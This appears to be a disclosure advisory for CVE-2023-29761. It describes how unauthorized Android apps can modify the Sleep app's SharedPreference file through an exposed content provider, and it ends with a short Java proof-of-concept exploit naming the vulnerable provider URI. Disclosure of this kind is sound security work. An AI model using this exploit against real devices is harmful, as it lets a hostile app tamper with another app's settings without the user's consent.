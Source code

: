 # Escalation of Privileges exists in Sleep（CVE-2023-29761）

Vendor: Urbandroid(http://twilight.urbandroid.org/)

Affected product: Sleep(com.urbandroid.sleep)

Version: 20230303

Download link： https://play.google.com/store/apps/details?id=com.urbandroid.sleep

Description of the vulnerability for use in the CVE：An issue found in Sleep v.20230303 allows unauthorized apps to cause escalation of privilege attacks by manipulating the SharedPreference files.

Additional information: The Sleep application allows unauthorized applications to use the methods provided in its exposed components to modify data in the SharedPreference file, which is loaded at application startup and affects critical application functionality.

Specifically, an attacker is able to change relevant settings in the application by modifying certain key data in the SharedPreference file, such as language, some displays of the interface, and also modify the uri of the alarm bell, resulting in an escalation of privilege attack.

poc:

```java
public void attack_sleep() {
        ContentResolver contentResolver = getApplicationContext().getContentResolver();
        Uri parse = Uri.parse("content://com.urbandroid.sleep.multiprocesspreferences.PREFFERENCE_AUTHORITY/a/a");
        ContentValues contentValues = new ContentValues();
        contentValues.put(targetKey, targetValue);
        contentResolver.insert(parse, contentValues);
    }
```